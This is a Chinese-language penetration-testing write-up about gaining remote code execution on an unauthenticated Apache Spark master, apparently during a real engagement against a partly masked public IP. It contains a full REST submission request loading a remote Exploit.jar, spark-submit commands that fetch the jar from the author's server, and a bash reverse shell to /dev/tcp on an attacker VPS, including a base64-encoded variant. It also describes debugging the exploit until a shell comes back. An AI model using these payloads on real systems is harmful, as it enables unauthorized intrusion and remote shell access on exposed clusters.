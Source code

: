 ### 坑点总结
1、阿里云vps开启nc监听时，需要加个参数n，即nc -lnvvvp 101.200.xx.xx 8888，具体原因未知  
2、当payload位于github上时，需考虑目标可能获取不到  

### 0x01 打点发现
团队一起做项目，同事发现一个Apache Spark未授权页面，我这边尝试打点，遂有此文
### 0x02 初次尝试
目标地址：  http://182.61.xxx.xxx:8080  
网上搜索针对Apache Spark的漏洞复现，用POC直接打，不出意外的攻击失败  
### 0x03 本地调试
本地搭建环境，使用vulhub项目中的环境：https://github.com/vulhub/vulhub/tree/master/spark/unacc  
（这里记录一下：搭建环境时，发现端口被占用，netstat -antup查不到占用端口的pid和进程名，原因是权限不够，改用sudo netstat -antup可查到占用端口的pid和进程名，有时容易忽略使用sudo）  

环境搭建完之后，访问：[http://192.168.202.128:8080](http://192.168.202.128:8080)，能够成功访问，说明环境搭建成功  
访问端口6066，能够成功访问，而目标不能访问，说明目标关闭了端口6066  
当前漏洞的利用可通过2个端口：6066、7077（防守方容易忽略端口7077），且目标没关闭7077端口，又看到希望了  
首先测试本地6066端口的漏洞利用，发送如下burp请求  
```
POST /v1/submissions/create HTTP/1.1
Host: your-ip:6066
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Content-Type: application/json
Connection: close
Content-Length: 680

{
  "action": "CreateSubmissionRequest",
  "clientSparkVersion": "2.3.1",
  "appArgs": [
    "id_whoami,w,cat /proc/version,ifconfig,route,df -h,free -m,netstat -nltp,ps auxf"
  ],
  "appResource": "https://github.com/aRe00t/rce-over-spark/raw/master/Exploit.jar",
  "environmentVariables": {
    "SPARK_ENV_LOADED": "1"
  },
  "mainClass": "Exploit",
  "sparkProperties": {
    "spark.jars": "https://github.com/aRe00t/rce-over-spark/raw/master/Exploit.jar",
    "spark.driver.supervise": "false",
    "spark.app.name": "Exploit",
    "spark.eventLog.enabled": "true",
    "spark.submit.deployMode": "cluster",
    "spark.master": "spark://your-ip:6066"
  }
}
```
漏洞利用失败  

思考了一下，可能是目标不能访问github，导致获取不到Exploit.jar，将Exploit.jar放置到自己的vps上，修改request后，重新发送请求，成功获得响应  
响应中包含driverId的值，用响应中driverId的值替换下面driverId的值，访问如下地址
```
http://192.168.202.128:8081/logPage/?driverId=driver-20211014035556-0013&logType=stdout
```
页面会显示成功执行后的结果  

测试本地7077端口的漏洞利用
```
./spark-submit --master spark://192.168.202.128:7077 --deploy-mode cluster --class Exploit http://101.200.xx.xx:8000/Exploit.jar id
```
spark-submit下载链接：https://archive.apache.org/dist/spark/spark-2.4.3/spark-2.4.3-bin-hadoop2.7.tgz  
（这里记录一下：下载spark-submit时不要下载源码包，要下载二进制安装包，否则会报错）  
查看执行结果还是通过上述方式，发现成功执行了命令  

通过端口7077反弹shell  
直接执行
```
./spark-submit --master spark://192.168.202.128:7077 --deploy-mode cluster --class Exploit http://101.200.xx.xx:8000/Exploit.jar "bash -i >& /dev/tcp/101.200.xx.xx/8888 0>&1"
```
vps上并没有收到反弹shell  

思考了一下，可能是bash反弹shell中特殊字符的问题，对payload进行base64编码，可通过此网站：http://www.jackson-t.ca/runtime-exec-payloads.html  
编码后，发送请求，仍然没有收到反弹shell

继续排查，查看Exploit.jar的源代码会发现，原作者是对命令进行逗号分隔，导致base64编码后的命令被逗号分隔，如下
```
String[] cmds = args[0].split(",");

bash -c {echo,YmFzaCAtaSA+JiAvZGxxxxxxxxxxxxEuMjAwLjE0NC41NS84ODg4IDA+JjE=}|{base64,-d}|{bash,-i}
```
知道问题了，我们可以将逗号分隔改为下划线分隔，并打包为jar包（如果仔细看上面的burp请求，会发现我已经在命令之间加了一个下划线）  

再次执行后成功接收到反弹shell  
![image](./pic/1.png)  

### 参考链接：  
https://www.cnblogs.com/mutudou/p/14685277.html  
https://medium.com/@Wh0ale/apache-spark-%E6%9C%AA%E6%8E%88%E6%9D%83%E8%AE%BF%E9%97%AE%E6%BC%8F%E6%B4%9E-ada9eb02af65  
https://github.com/vulhub/vulhub/tree/master/spark/unacc  
https://github.com/aRe00t/rce-over-spark/blob/master/Exploit.java  
